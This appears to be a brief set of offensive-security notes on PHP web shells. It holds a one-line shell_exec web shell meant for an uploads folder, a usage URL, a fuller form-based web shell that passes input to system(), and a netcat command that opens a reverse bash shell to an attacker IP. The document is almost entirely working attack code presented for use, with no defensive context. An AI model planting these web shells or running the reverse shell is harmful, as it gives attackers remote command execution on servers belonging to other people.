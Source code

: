 
Eg: in any php file, in the uploadfolder 

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

```


would alow you

`website/uploads/<filename>?cmd=ipconfig`

simple php webshell script:
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```


with this script you can re-connect back to your local ip with nc
```
nc 10.6.62.249 9999 -e /bin/bash
```
